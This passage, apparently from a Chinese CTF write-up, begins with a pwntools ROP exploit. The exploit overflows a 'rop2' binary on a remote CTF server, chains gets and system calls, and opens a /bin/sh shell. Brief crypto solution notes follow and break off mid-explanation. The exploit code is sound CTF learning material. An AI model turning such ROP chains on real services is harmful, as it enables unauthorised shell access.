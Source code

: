 ```python
r=remote("129.211.58.26",10002)
elf=ELF('./rop2')
sys_addr=p64(elf.symbols["system"])
get_addr=p64(elf.symbols["gets"])
rdi_addr=p64(0x00000000004008e3)
main_addr=p64(0x000000000040080D)
binsh_addr=p64(0x0000000000601080)

#sys_addr=p64(0x0000000000400805)

payload1='A'*12
payload1+=rdi_addr
payload1+=binsh_addr
payload1+=get_addr
payload1+=rdi_addr
payload1+=binsh_addr
payload1+=sys_addr

r.recvline()
r.sendline(payload1)
r.sendline("/bin/sh") 
r.interactive()
#pwn一下就可以拿到flag
```



------

## Crypto

### 一、Frequency analysis?

题目给出的文件是一个装满字符的文本文档，结合题目名字，肯定是分析各个字符出现次数后排序并输出对应的字符得到flag，果断上万能的Python！

脚本如下：

![img](file:///C:/Users/djw20/AppData/Local/Temp/msohtmlclip1/01/clip_image002.png)

运行一下Flag就出来了！

### 二、Columnar Transposition

​		这次不用python了，这次用万能的Excel，加解密规则是百度查到的，这里直接放出我的解密格式：

![img](file:///C:/Users/djw20/AppData/Local/Temp/msohtmlclip1/01/clip_image003.png)

​       按顺序取出再base64加密提交即可

### 三、Easy_RSA

​       这题叫做Easy_RSA，但是一点不Easy，关键不是算出各个数据，而是生成私钥，由于我用了比较麻烦的方法生成所以这里就不太详细叙说了：
